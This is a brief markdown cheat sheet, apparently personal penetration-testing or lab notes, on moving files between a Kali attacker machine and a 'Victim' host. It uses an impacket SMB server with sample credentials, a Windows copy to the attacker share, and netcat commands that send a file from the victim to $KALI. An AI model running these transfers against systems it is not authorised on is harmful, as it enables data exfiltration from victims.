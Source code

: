 # Transferring Files



## **SMB**

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

**Kali(receiving)**

```
nc -l -p 1234 > user.jpg
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < user.jpg
```

